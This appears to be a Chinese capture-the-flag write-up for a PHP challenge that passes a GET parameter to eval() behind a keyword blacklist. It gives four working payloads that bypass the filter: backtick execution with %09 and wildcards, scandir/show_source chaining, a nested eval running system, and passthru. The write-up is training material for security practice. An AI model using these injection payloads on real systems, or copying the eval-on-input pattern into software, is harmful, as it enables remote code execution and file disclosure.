






```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:49:10
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤

- flag
- system
- php
- cat
- sort
- shell
- 点(.)
- 空格( )
- 单引号(')


### 第一种方案

还可以同上题

echo配合反引号

```
?c=echo(`ls`);
```



利用*匹配字符，利用%09绕过空格过滤（这里${IFS}$1和${IFS}都无法使用）

```
?c=echo(`tac%09fl*`);
```




### 第二种方案

或者利用函数一点点凑

```
?c=var_dump(scandir(getcwd()));
```



获取当前路径下的内容

getcwd()获取当前路径

scandir()扫描目录

var_dump()输出内容


```
?c=show_source(next(array_reverse(scandir(getcwd()))));
```


array_reverse()逆序数组

next()取第二个

show_source()显示源码

得到flag



### 第三种方案

嵌套一个eval函数实现绕过

```
?c=eval($_GET["ra1n3"]);?>&ra1n3=system("cat flag.php");
```




### 第四种方案

利用未过滤函数passthru

```
?c=passthru("tac%09fl*");
```

